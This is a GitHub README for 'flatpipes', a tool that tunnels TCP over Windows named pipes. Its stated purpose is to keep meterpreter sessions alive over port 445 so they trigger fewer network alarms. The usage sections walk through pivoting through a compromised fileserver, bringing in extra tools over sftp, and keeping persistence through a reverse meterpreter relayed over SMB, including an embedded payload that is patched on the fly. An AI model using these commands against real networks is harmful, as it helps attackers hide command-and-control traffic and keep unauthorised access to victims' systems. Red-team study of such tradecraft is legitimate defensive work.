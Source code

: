 # flatpipes
A TCP proxy over named pipes. Originally created for maintaining a meterpreter session over 445 for less network alarms.

![help](https://github.com/dxflatline/misc/raw/master/flatpipes-help.PNG "help")

Since it seems it can help in various situations, let's list a few:


#### Usage - TCP 10001 Chat over Named Pipe

On the 1st Windows host (pipe server) we create two pipes "pipename_s2c" & "pipename_c2s" and as soon as pipe negotiation is ok, we open a TCP listener at 10001: 
```
flatpipes.exe pserver sserver pipename . 127.0.0.1 10001
```

On the 2nd Windows host (pipe client) we just connect to the pipe(s) created previously on the system X.X.X.X. As soon as we successfully connect, flatpipes open a listener on 10001 on this client machine too: 
```
flatpipes.exe pclient sserver pipename X.X.X.X 127.0.0.1 10001
```

Finally, netcat on the two hosts on their listeners and chat with yourself.


#### Usage - Bring a remote port here

Let's suppose you have access on the MS Fileserver (x.x.x.x) through a Windows "jumphost" workstation. You want to ensure all communications are over 445 since it is normal for workstation to DC. We need to access SSH on another system (y.y.y.y) in the Fileserver's LAN but we can only connect to MS Fileserver 445

On the MS Fileserver (x.x.x.x) we create our pipes for "IPC", and as soon as pipe negotiation is ok, it will TCP connect to the SSH server (y.y.y.y) in the LAN. All IO is through the flatpipes: 
```
flatpipes.exe pserver sclient pipename . y.y.y.y 22
```

On the jumphost we PIPE connect to the MS fileserver (x.x.x.x), and immediately spawn a TCP listener on localhost 22: 
```
flatpipes.exe pclient sserver pipename x.x.x.x 127.0.0.1 22
```

Just ssh on 127.0.0.1 22 from the jumphost  and you are through the town portal


#### Usage - Send a local port there

The reverse of the above example, useful to download additional tools through eg sftp

On the Server (x.x.x.x) we create our pipes for "IPC", and as soon as pipe negotiation is ok, it spawn a TCP listener on localhost 22: 
```
flatpipes.exe pserver sserver pipename . 127.0.0.1 22
```

On the jumphost we PIPE connect to the Server (x.x.x.x), and as soon as pipe negotiation is ok, it will TCP connect to our sFTP file repo (y.y.y.y). All IO is through the flatpipes: 
```
flatpipes.exe pclient sclient pipename x.x.x.x y.y.y.y 22
```

SSH on 127.0.0.1 22 from the Server


#### Usage - Reverse TCP meterpreter through pipes (own payload)

On the MS Fileserver (x.x.x.x) again and you want to maintain persistence, but over 445. You want reverse TCP meterpreter but also you want the jumphost to initiate the 445 connection.

On the MS Fileserver (x.x.x.x), we create two pipes and listen on 127.0.0.1 54321 for the reverse TCP meterpreter: 
```
flatpipes.exe pserver sserver pipename . 127.0.0.1 54321
```

On the jumphost we connect to the MS Fileserver (x.x.x.x) and immediately connect to the meterpreter handler: 
```
flatpipes.exe pclient sclient pipename x.x.x.x y.y.y.y 54321
```

What this means is that we can exchange directions, eg use a reverse exploitation, but make the opposite network traffic. It is like an encapsulation over DNS, just needs some familiarization.


#### Usage - Reverse TCP meterpreter through pipes (embedded payload)

Same as above but the reverse meter payload is embedded in the flatpipes

On the MS Fileserver (x.x.x.x), we create two pipes and listen on 127.0.0.1 54321 for the reverse TCP meterpreter. Note the "revmeter" keyword: 
```
flatpipes.exe pserver sserver pipename . 127.0.0.1 54321 revmeter
```

On the jumphost we connect to the MS Fileserver (x.x.x.x) and immediately connect to the meterpreter handler at y.y.y.y: 
```
flatpipes.exe pclient sclient pipename x.x.x.x y.y.y.y 54321
```

Important note: If you meterpreter listener in waiting on eg 12345 just use the following:
```
flatpipes.exe pserver sserver pipename . 127.0.0.1 54321 revmeter
flatpipes.exe pclient sclient pipename x.x.x.x y.y.y.y 12345
```
The first command with "monkey-patch" the meterpreter bytecode on-the-fly to make it locally connect to 54321. At the jumphost, the 12345 can be used without any interruption. It is like NAT'ting a port on a firewall

---

#### TODO
* Include a meterpreter bind/reverse stager - Done
* "Monkey patch" the above stager to change port on the fly - Done
* Custom payload option
* Exception handling. Asap when pipe auth does not work

---

I hope it will help. It is not very well-written, comments are welcome / looking for feedback.

<sub>PS: I don't know exactly (or have time to read) the details of CreateNamedPipe access controls. So I assume from MSDN that by using NULL security descriptor we allow RW access to Admins/System/Creator and R to everyone/anon. On the workstation that acts as a pipe client I test using eg *runas /user:server\tester /netonly "flatpipes.exe pclient sserver pipename X.X.X.X 127.0.0.1 10001"*. What happens with */netonly* is that you force an ntlm2 challenge response for all the pipe access requirements of the calls issued by flatpipes.</sub>
